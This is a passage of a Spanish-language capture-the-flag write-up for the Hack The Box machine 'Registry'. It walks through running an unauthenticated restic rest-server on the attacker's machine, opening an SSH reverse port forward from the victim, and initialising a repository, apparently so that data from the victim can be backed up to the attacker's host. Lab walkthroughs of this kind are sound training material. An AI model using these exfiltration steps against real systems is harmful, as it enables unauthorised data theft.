 Y lo mejor es que para utilizarlo, se requiere la URL rest:// es decir, que empieza por `rest`

Después de descargar el binario de las Release del Github, podemos ejecutar el servidor de la siguiente manera. **Esto es un ejemplo, mas adelante cambiamos la ejecución del servidor**.
```console
./rest-server --no-auth --listen 0.0.0.0:3000
Data directory: /tmp/restic
Authentication disabled
Private repositories disabled
start server on [::]:3000
```

Ahora vamos mediante SSH a hacer port forwarding para conseguir acceder a este servicio mediante la máquina víctima.

```console
$ ssh -i .ssh/id_rsa bolt@registry.htb -R:3000:localhost:3000
Enter passphrase for key '.ssh/id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Wed Aug 28 20:45:11 UTC 2024

  System load:                    0.0
  Usage of /:                     60.2% of 4.71GB
  Memory usage:                   17%
  Swap usage:                     0%
  Processes:                      177
  Users logged in:                0
  IP address for eth0:            10.129.220.101
  IP address for br-1bad9bd75d17: 172.18.0.1
  IP address for docker0:         172.17.0.1
Last login: Wed Aug 28 19:24:46 2024 from 10.10.14.125
bolt@registry:~$
```

En nuestra máquina de atacante vamos a crear un repositorio en el directorio donde tenemos el binario de `rest-server`.
```console
$ restic init -r .
enter password for new repository: 
enter password again: 
created restic repository 8a2c9bfab2 at .

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.
```

Ahora para el servidor, vamos a hacer un pequeño cambio.

Vamos a consultar primero que versión de restic tiene la máquina víctima y vemos que tiene la `0.8.3`
```console
www-data@registry:~/html/bolt/files/.persistent$ restic version
restic version
restic 0.8.3
compiled with go1.10 on linux/amd64

```
